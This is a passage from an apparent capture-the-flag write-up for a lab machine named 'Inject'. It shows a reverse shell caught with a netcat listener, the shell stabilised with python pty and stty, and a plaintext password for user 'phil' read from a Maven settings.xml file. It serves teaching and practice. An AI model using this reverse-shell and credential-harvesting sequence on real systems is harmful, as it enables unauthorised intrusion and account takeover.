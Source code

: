 Execute the payload:

```bash
bash /tmp/shell
```

![](execute_shell.png)

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.204] 39350
bash: cannot set terminal process group (819): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$
```

## Lateral Movement

Stabilize the shell:

```bash
frank@inject:/$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
frank@inject:/$ ^Z
[1]+  Stopped                 nc -lvnp 1337

┌──(kali㉿CSpanias)-[~]
└─$ stty raw -echo; fg
nc -lvnp 1337

frank@inject:/$ export TERM=xterm
```

Check for files in `frank`'s directory:

```bash
frank@inject:/$ find ~/ -type f 2>/dev/null
/home/frank/.bashrc
/home/frank/.m2/settings.xml
/home/frank/.cache/motd.legal-displayed
/home/frank/.profile

frank@inject:/$ cat ~/.m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

